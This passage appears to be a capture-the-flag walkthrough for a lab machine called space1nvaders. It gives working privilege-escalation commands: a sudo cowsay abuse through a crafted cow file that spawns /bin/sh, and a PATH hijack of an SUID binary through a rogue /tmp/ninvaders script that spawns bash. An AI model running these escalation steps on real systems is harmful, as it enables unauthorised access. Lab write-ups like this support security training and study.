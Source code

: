 https://gtfobins.github.io/gtfobins/cowsay/

2nd flag found at /home/jen/jen.txt

### Privilege Escalation to Maurice

```
jen@space1nvaders:~$ echo 'exec "/bin/sh";' > /tmp/bingo
jen@space1nvaders:~$ sudo -u maurice /usr/games/cowsay -f /tmp/bingo x
$ whoami
maurice
$
``` 

## Maurice

3rd flag found at /home/maurice/maurice.txt

User maurice belongs to group techsupport which is not default group so it must have something to do

```
maurice@space1nvaders:~$ find / -group techsupport 2>/dev/null
/opt/retro
/opt/retro/invaders

maurice@space1nvaders:~$ ls -l /opt/retro/
total 16
-rwsr-x--- 1 root techsupport 16104 oct 18 19:34 invaders
```


There's a binary with suid which runs a train and a space invaders game, let's check it out with strings

Between all the garbage, there's this string:
```
/usr/games/sl -a && ninvaders
```

sl is the binary for the train and ninvaders is the game, but the latter is not called from an absolute path so if an executable with the same name,whether rogue or not, is found on any path from PATH variable before where the legitimate binary is, it could lead to the execution of the former

### PATH hijacking

Then in this case i'll create the file ninvaders on /tmp and add it to PATH

```
echo -e '#!/bin/bash\n/bin/bash'> /tmp/ninvaders
chmod +x /tmp/ninvaders
```

Now lets run the suid binary

```
maurice@space1nvaders:/opt/retro$ ./invaders 
 __________________________________
/ You will overcome the attacks of \
\ jealous associates.              /
 ----------------------------------
        \   ^__^
         \  (xx)\_______
            (__)\       )\/\
             U  ||----w |
                ||     ||
bash: /home/maurice/.bashrc: Permiso denegado
roy@space1nvaders:/opt/retro$
``` 
